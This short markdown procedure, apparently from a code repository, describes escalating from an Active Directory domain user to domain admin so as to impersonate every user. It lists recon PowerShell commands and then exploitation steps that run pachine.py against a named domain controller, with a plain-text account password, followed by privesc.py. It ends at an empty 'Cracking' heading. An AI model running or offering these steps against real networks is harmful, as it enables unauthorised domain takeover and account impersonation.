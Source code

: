 # Procedure to privesc from domain user to domain admin -> impersonate every single user

## Recon
In order to get the exploit to work, we have to run some commands to check if the vuln is still here :

Install AD utils on the computer used to recon (with local privileged account): 

`Add-WindowsCapability –online –Name "Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0"`

Login into domain account and open a powershell :

`cd ./Downloads`

`Get-ADDomainController > dc.txt`

## Exploitation

Boot with a kali USB on one of the PC and get started.

Check if the vuln is there :

`python3 pachine.py -dc-host WIN-CQKL0KHIEF1.stb2018.local -dc-ip 10.0.2.4 -scan 'stb2018.local/DEVILLE:f9uf6'`

Then go for it :

`python3 privesc.py`

## Cracking 

